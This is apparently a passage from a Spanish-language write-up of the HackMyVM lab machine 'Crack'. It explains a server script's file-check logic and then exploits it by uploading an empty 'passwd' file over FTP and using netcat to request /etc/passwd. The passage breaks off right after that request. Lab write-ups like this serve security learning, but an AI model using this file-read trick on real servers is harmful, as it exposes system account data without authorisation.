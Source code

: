 Ahora entramos en la condición, para que funcione se tienen que cumplir dos requisitos:

1. El fichero de la variable **`check`** (**`/srv/ftp/upload/passwd`**) tiene que existir.

2. El fichero de la variable **`file`** tiene que existir (**`/etc/passwd`**).

Si las dos condiciones se cumplen se abrirá el fichero de la variable **`file`**, leerá todas las líneas y nos las enviará. 

¡Estupendo! Ya sabemos el funcionamiento del código.

# Movimiento Lateral
### Shell
Ahora que sabemos el funcionamiento del código podemos pasar a la explotación, para ello crearemos un fichero llamado **`passwd`** y lo subiremos al servidor **`FTP`**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Crack/exploits]
└─# touch passwd
```

```sh
ftp> put passwd 
local: passwd remote: passwd
229 Entering Extended Passive Mode (|||23109|)
150 Ok to send data.
     0        0.00 KiB/s 
226 Transfer complete.
ftp> ls -la
229 Entering Extended Passive Mode (|||58502|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Jun 10 15:18 .
drwxr-xr-x    3 0        114          4096 Jun 07 12:22 ..
-rwxr-xr-x    1 1000     1000          849 Jun 07 14:40 crack.py
-rw-------    1 107      114             0 Jun 10 15:18 passwd
226 Directory send OK.
```

Una vez tengamos todo preparado podemos comenzar con la explotación, para ello nos conectaremos con **`telnet`** o **`netcat`** al puerto `12359`:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Crack]
└─# nc 192.168.1.112 12359
File to read:
```

Vemos que está pasando lo que habíamos previsto, vamos a probar si nuestra hipótesis funciona:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Crack]
└─# nc 192.168.1.112 12359
File to read:/etc/passwd
```
